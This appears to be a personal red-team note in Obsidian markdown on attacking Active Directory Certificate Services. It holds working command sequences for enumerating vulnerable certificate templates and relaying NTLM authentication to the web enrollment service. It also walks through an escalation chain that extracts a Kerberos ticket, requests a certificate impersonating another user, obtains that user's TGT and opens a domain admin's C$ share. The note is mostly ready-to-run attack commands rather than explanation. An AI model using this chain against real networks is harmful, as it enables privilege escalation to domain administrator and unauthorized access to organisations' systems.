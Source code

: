 ```yaml
---
creation date: January 5th 2022
last modified date: January 5th 2022
aliases: []
tags: #📖
---
```


Primary Categories: [[01 - Operation]]
Secondary Categories:  [[02 - External]] - [[02 - Internal]]
Links: [[Privilege Escalation]]
Search Tag: #📖  

# [[ADCS]]  

## Enumeration 
### BOF 
https://github.com/trustedsec/CS-Situational-Awareness-BOF
```
adcs_enum
```

Review output for templates that have client authentication in the extended key usage where a non-admin pricipal has:
- `Enrollment` rights
- `WriteProperty` rights or the template enrollment flags contains name flags `ENROLLEE_SUPPLIES_SUBJECT`



## Reg Checks 
 ```cmd
certutil.exe -config "<CA.domain.gov>\<CA Service>" -getreg "policy\EditFlags"
``````
 
## Web Services
Force authentication from a machine to the web enrollment service of ADCS to enroll in a certificate template for the given machine account
```bash 
ntlmrelayx.py -t http://<CA>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController # or any template 
```


## Certificate Analysis 
```bash 
export KRB5CCNAME=User.ccache
cat cert-names.txt | xargs -I {} /bin/bash -c "echo \"Analyzing {}\n\" && python3 modifyCertTemplate.py -get-acl -k -no-pass -template '{}' 'domain.com/User' | grep -A4 'Write' | grep -B4 -E '(Computers|Users)'"
```

### Escalation 
Enrollee_Supplies_Subject

#### Tools 
https://github.com/connormcgarr/tgtdelegation
https://github.com/zer1t0/certi
https://github.com/dirkjanm/PKINITtools

```bash
## Deprecated Don't use this 
# execute-assembly /share/Working/tools/Rubeus.exe tgtdeleg /nowrap
## use vim or text editor to paste tgt into flat file (<user>-tgt.kirbi.b64) and make sure no blank lines are added to the end of the file
# cat <user>-tgt.kirbi.b64 | base64 -d > <user>-tgt.kirbi
# impacket-ticketConverter <user>-tgt.kirbi <user>-tgt.ccache

# New hotness 
# Instead, load in the tgtdelegation bof mentioned above and run the following which will save a ccache file on disk in your home folder
tgtdeleg currentdomain default 

export KRB5CCNAME=/path/to/<user>-tgt.ccache 
proxychains python3 certi.py req domain.local/currentUser@ca.domain.local CA-NAME -k --no-pass --alt-name targetUsername --template TemplateName

proxychains python3 gettgtpkinit.py domain.local/targetUsername -dc-ip <dc-ip> targetUsername.ccache -cert-pfx /path/to/file.pfx -pfx-pass pfx-file-password 

export KRB5CCNAME=/tools/PKINITtools/da.ccache 
proxychains smbclient.py -k -no-pass -dc-ip <dc-ip> <domain.local>/<da>@<dc-ip-or-hostname>
# shares
# use c$
# ls 
```
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 5th 2022 (02:26 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
